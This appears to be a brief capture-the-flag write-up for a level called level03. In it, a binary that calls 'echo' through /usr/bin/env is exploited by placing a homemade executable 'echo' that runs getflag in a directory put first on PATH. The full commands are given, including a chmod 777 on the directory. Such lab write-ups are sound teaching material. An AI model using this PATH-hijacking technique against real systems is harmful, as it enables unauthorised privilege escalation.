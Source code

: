 # We found a binary: ./level03
# The binary print 'Exploit me'
# We dump the binary:
hexdump ./level03 -C

# We found: /usr/bin/env echo Exploit me

# So we thinked that the vurnability is to make the program use our 'homemade echo' XD
chomod 777 .
echo 'getflag' > echo
chmod +x echo
export PATH=/home/user/level03/:$PATH

# We launched again ./level03
# And TADAAAAAAAA
